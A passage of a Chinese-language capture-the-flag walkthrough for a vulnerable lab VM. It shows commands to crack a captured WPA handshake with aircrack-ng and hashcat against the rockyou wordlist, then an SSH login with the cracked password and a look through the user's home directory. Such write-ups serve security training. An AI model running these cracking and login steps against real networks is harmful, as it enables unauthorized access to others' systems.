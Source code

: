 > hashcat爆破
>
> ```
> aircrack-ng eg-01.cap -J eg-01-hc.cap  
> hashcat -m 2500 eg-01-hc.cap.hccap /usr/share/wordlists/rockyou.txt -w 4
> ```

找到密码是`triscuit*`，登录SSH

```
┌──(root💀kali)-[/tmp]
└─# ssh eric@192.168.32.170 -p 1974                                                                            
The authenticity of host '[192.168.32.170]:1974 ([192.168.32.170]:1974)' can't be established.
ECDSA key fingerprint is SHA256:Iz1zMYr38vrfL6+fiW0fdOAxC2ymMj/um0B6LxPAOLM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.32.170]:1974' (ECDSA) to the list of known hosts.
eric@192.168.32.170's password: 
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

37 packages can be updated.
0 updates are security updates.


Last login: Sat Aug 20 22:28:28 2016 from 192.168.3.101
eric@BM:~$ 
```

让我们看看我们在`eric's`主目录中有什么可用的。

```
eric@BM:~$ ls -al
total 532
drwxr-xr-x 3 eric eric   4096 Aug 23  2016 .
drwxr-xr-x 6 root root   4096 Aug 20  2016 ..
-rw-r--r-- 1 eric eric    220 Aug 20  2016 .bash_logout
-rw-r--r-- 1 eric eric   3771 Aug 20  2016 .bashrc
drwx------ 2 eric eric   4096 Aug 20  2016 .cache
-rw-r--r-- 1 root root 451085 Aug  7  2016 eric-tongue-animated.gif
-rw-r--r-- 1 root root  60710 Aug  7  2016 eric-unimpressed.jpg
-rw-r--r-- 1 eric eric    655 Aug 20  2016 .profile
-rw-r--r-- 1 root root    115 Aug 20  2016 why-1974.txt
eric@BM:~$ cat why-1974.txt 
Why 1974?  Because: http://www.metacafe.com/watch/an-VB9KuJtnh4bn/billy_madison_1995_billy_hangs_out_with_friends/
```

我检查了两张图片，但没有任何有趣的东西出来。

是时候尝试提升了。
